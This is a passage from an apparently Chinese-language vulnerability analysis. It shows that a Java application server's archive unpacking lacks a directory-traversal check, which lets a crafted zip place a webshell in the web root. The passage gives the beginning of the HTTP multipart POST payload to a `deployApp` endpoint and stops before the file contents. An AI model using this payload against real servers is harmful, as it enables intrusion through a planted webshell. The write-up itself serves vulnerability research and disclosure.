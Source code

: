 ```java
        if (out != null) {
            out.close();
        }
    }

}
```

但是`exploadDir`无法直接访问，而且在`unpackJarFile`方法中未对目录穿越做过了，所以可以构造可以目录穿越的压缩包，将 webshell 解压到`domains/applications/default/public_html/`下。

### 总结

![2](assets/1705902966-e0ed6b450d8c6d092f1b6e3d75c13e15.jpg)

## 0x02 构造 payload 并复现

于是构造 payload 为

```java
POST /xxxxx/xxxx/application/deployApp HTTP/1.1
Host: 
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryNotThoE1rFKMKxp5
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.5615.50 Safari/537.36
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Length: 1499

------WebKitFormBoundaryNotThoE1rFKMKxp5
Content-Disposition: form-data; name="appName"

12123123
------WebKitFormBoundaryNotThoE1rFKMKxp5
Content-Disposition: form-data; name="deployInServer"

false
------WebKitFormBoundaryNotThoE1rFKMKxp5
Content-Disposition: form-data; name="clientFile"; filename="test2.zip"
```